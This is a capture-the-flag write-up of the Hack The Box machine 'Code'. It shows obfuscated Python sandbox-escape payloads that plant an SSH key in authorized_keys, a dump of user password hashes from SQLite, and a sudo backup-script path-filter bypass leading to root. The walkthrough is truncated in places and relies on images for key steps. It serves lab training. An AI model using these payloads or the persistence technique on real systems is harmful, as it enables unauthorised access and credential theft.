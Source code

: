 # HTB Challenge: NOCTURNAL HTB

## Initial Exploration

We have a website on the port 
## Creating an SSH Access

We observe that the user does not have a **.ssh** folder. We will create one to establish an SSH connection later.

### Creating the `.ssh` Folder

```python
b = (0).__class__.__base__.__subclasses__()[138].__init__.__globals__
i = b['__bui' + 'ltins__']
i['__im' + 'port__']('o'+'s').__getattribute__('make' + 'dirs')('/home/app-production/.ssh/')
```

### Adding Our Public SSH Key

```python
f = ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/home/app-production/.ssh/authorized_keys', 'w')
getattr(f, 'w'+'rite')('ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAa4YWMYFMgqwAKvvz4HsksklM78XxsjF6mGuwKcJOdpxhYBNNDyyh/WBGYI/zoEQCQBuZjjm+jgEJYsyNLOAt8= kali@kali')
getattr(f, 'clo'+'se')()
```

---

## Accessing the SQLite Database

We find hints in a configuration file indicating the presence of an **SQLite3** database.

### Locating the Database

```bash
app-production@code:~$ find / -name "database.db" 2>/dev/null
/home/app-production/app/instance/database.db
/home/app-production/instance/database.db
```

### Exploring the Database

```bash
app-production@code:~$ sqlite3 /home/app-production/app/instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```

#### Retrieving Available Tables

```sql
sqlite> .tables
code  user
```

#### Extracting Users and Passwords

```sql
sqlite> select * from user;
1|root|new_root_password
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|sojlen|202cb962ac59075b964b07152d234b70
```
We found MD5 hashed password, let's go crack that with Hashcat

<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image1.png" alt="hashcat">
</div>

Thus, we obtain **Martin's** password.

---

## Privilege Escalation

After logging in as **Martin**, we execute:

```bash
martin@code:~$ sudo -l
```

We discover a script **/usr/bin/backy.sh** that can be executed with sudo.

### Content of `backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\.\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We exploit a flaw in the script to execute arbitrary commands.
<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image2.png" alt="arbitrary-command">
</div>

### Exploitation

We can use **tar** to extract sensitive content into `/home/martin/backup/`:

```bash
tar -xvf code
```
<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image3.png" alt="root-access">
</div>

This grants us access to the necessary files to gain **root** access.

---

## Retrieving the Root Flag

By exploiting the script's vulnerability, we obtain **root** access, allowing us to read the **/root/root.txt** file.

